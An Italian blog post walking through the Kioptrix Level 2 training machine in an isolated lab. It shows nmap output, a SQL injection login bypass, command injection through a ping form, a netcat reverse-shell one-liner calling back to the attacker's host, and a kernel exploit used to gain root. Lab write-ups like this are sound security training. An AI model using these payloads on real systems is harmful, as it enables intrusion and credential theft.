 ```yaml
---
layout: post
title: "Getting Root: Kioptrix livello 2"
exercise: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
level: SEMPLICE
promotion: 
modified: 
featured: false
category: [getting-root]
tags: [walkthrough, oscp, kioptrix, getting-root]
comments: true
image:
  feature: root.png
  credit: 
  creditlink: 
share: true
---
```


Il secondo livello di Kioptrix non presenta particolari difficoltà. Fa parte di
quelle macchine che sto usando per ricostruire l'autostima in vista della
prossima OSCP.

## Kioptrix Livello 2

Continuiamo la serie Kioptrix ed arriviamo al livello 2 disponibile
[qui]({{page.exercise}}).

Anche questa macchina virtuale è un box Linux su cui è montata una
distribuzione CentOS obsoleta.

### Setup dell'ambiente

Per iniziare, ho scaricato la [versione corretta della macchina
virtuale](http://www.kioptrix.com/dlvm/Kioptrix_Level_2.rar). La prima versione
aveva infatti un bug nella web application. Ho lasciato configurato
[VirtualBox](https://www.virtualbox.org) affinché esegua la mia [Kali
Linux](https://www.kali.org) e la macchina target in una rete ad hoc, isolata
dal mondo esterno.

Questo si ottiene andando sulle preferenze di Virtual Box, selezionando
_Network_ ed il tab _Host-only networks_.

![Impostazioni Virtual Box]({{site.url}}/assets/images/getting-root/k1/impostazioni_virtualbox.png)

Ora che tutte le macchine, all'avvio, prenderanno un indirizzo sulla 192.168.56
possiamo partire.

La macchina 192.168.56.101 è una Kali Linux aggiornata e pronta all'uso.
La macchina 192.168.56.103 è il nostro target.

![La nostra vittima all'avvio]({{site.url}}/assets/images/getting-root/k2/target.png)

### Recon

Il primo passaggio è quello di enumerare i servizi in ascolto sulla macchina,
per cercare di capire qualcosa in più.

{%highlight sh%}
# nmap -sV -O 192.168.56.103 -oA 192.168.56.103
{%endhighlight%}

{% highlight sh %}
# Nmap 7.50 scan initiated Mon Sep 11 17:28:58 2017 as: nmap -sV -O -oA 192.168.56.103 192.168.56.103
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.103
Host is up (0.00024s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:87:1E:A6 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 11 17:29:14 2017 -- 1 IP address (1 host up) scanned in 16.05 seconds
{%endhighlight%}

E' stato lanciato anche un _dirb_, che però non ha trovato cose interessanti.

### Takeover narrative

Cercando con _searchexploit_, qualche exploit già pronto per le versioni
rilevate abbiamo che per CUPS c'è qualcosa che possa darmi una shell, mentre
per Apache solamente un DoS.

Navigando sulla porta 80, ci viene presentato una maschera di login di uno
pseudo portale amministrativo.

![Login]({{site.url}}/assets/images/getting-root/k2/login_page_sulla_porta_80.png)

La pagina di login era facilmente bypassabile usando la combinazione di
credenziali _admin:foo or '1'='1_.

![Login page bypassed]({{site.url}}/assets/images/getting-root/k2/login_page_bypassed.png)

Una volta autenticati, ci viene presentata una maschera che ci permette di
eseguire un ping su un indirizzo ip passato come parametro. Questo genere di
funzionalità si presta spesso a problematiche di command injection, quando
l'input non è validato correttamente.

Infatti, usando il carattere ';' come separatore, siamo in grado di far
eseguire il comando _id_.

![Command injection]({{site.url}}/assets/images/getting-root/k2/command_injection.png)

Una shell non privilegiata sulla macchina fa sempre comodo come primo
risultato, che ne pensate? 

Bene, su una finestra di terminale, ho lanciato netcat in ascolto sulla porta 443 e poi ho cercato di fare una callback alla mia macchina.

{%highlight sh%}
$ nc -lvnp 443
{%endhighlight%}

Perché uso la 443? Preferisco usare porte di servizi conosciuti, per evitare
problemi con eventuali firewall. Servizi come 21, 53, 80, 443 in uscita da un
indirizzo IP,  possono essere dei buoni candidati.

Dopo un po' di tentativi di indovinare il path di netcat, sulla macchina
target, sono riuscito ad ottenere la mia shell col comando _192.168.56.101; /usr/local/bin/nc 192.168.56.101 443 -e /bin/sh_

![Reverse shell]({{site.url}}/assets/images/getting-root/k2/unprivileged_reverse_shell.png)

Da dentro, il primo obiettivo è capire bene di quale distribuzione si sta
parlando e soprattutto quale la versione del kernel. Questo ci permette in
seguito di cercare l'exploit migliore per elevare i privilegi della nostra
shell.

![CentOS disclosure]({{site.url}}/assets/images/getting-root/k2/centos_disclosure.png)
{%highlight sh%}

$ uname -a

Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
{%endhighlight%}

Cerco quindi exploit per CentOS 4.5 e sono abbastanza fortunato.
![CentOS exploit]({{site.url}}/assets/images/getting-root/k2/centos_exploit.png)

Visto che le macchine, per come è stato creato il mini laboratorio, non escono
su Internet direttamente, carico gli exploit nella mia _/var/www/html_ e
usando wget li prelevo dal target.

Provo prima l'exploit per il CVE-2009-2698 ma, una volta caricato fallisce.
Niente shell di root al primo tentativo.

![CVE-2009-2698 failed]({{site.url}}/assets/images/getting-root/k2/exploit_1_failed.png)

Provo quindi con l'exploit per il CVE-2009-2692 e questa volta, dopo aver compilato e lanciato l'exploit ho più fortuna: sono root.

![CVE-2009-2692 succeded]({{site.url}}/assets/images/getting-root/k2/root.png)

Ho cercato un po' in lungo ed in largo la flag di questa macchina ma non l'ho
trovata. Probabilmente l'autore non l'ha messa. 

### Spinoff

Andando a vedere il codice sorgente di /var/www/html/index.php è possibile ottenere la password di MySQL dell'utente john.

![index.php info disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_info_disclosure.png)

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_connected_john.png)

E connettersi con successo al database MySQL.

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_0.png)

Andando più a fondo è stato possibile trovare le hash delle password degli
utenti del piccolo portale.

![Application hashes]({{site.url}}/assets/images/getting-root/k2/mysql_1_hash_exposed.png)

Ed infine è stato possibile risalire alla password di root su MySQL che è
_hiroshima_.

![MySQL pwd disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_2_mysql_pwd_exposure.png)



## Off by one

Anche questo livello 2 di Kioptrix non ha presentato grosse difficoltà. Resta
il punto aperto del perché l'exploit per il CVE-2009-2698 non abbia funzionato,
ma non ho investigato nel dettaglio, visto lo scopo di queste esercitazioni.

Il livello 3 di Kioptrix mi aspetta.

Enjoy it!
